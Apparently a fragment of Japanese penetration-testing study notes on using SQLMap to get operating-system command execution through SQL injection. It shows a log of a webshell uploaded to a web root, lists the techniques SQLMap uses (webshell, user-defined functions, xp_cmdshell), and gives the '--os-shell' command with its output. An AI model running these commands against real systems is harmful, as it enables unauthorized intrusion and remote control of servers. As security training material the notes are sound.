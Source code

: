 書き込み(アップロードした)webshellでのコマンドの実行
```shell-session
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

### OS Command Execution
- PHPシェルを使ってコマンド実行ができることを確認した
- **SQLMapが自動でリモートシェルを開く方法を試す**
- SQLMapは複数のテクニックを使って、SQLインジェクション経由でOSシェルを取得することができる
	- Webシェルの設置（さっきの例）
	- SQL関数を作ってOSコマンドを実行
	- xp_cmdshell（SQL Server）など直接コマンド実行できる関数の利用

SQLMapで簡単にシェルを開くには `--os-shell` オプションを使う
```shell-session
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

ここから、OSコマンドができることがわかる
```sh
[INFO] creating UDF 'sys_exec'
[INFO] creating UDF 'sys_eval'
[INFO] calling Linux OS shell￥
os-shell> ls -la
```



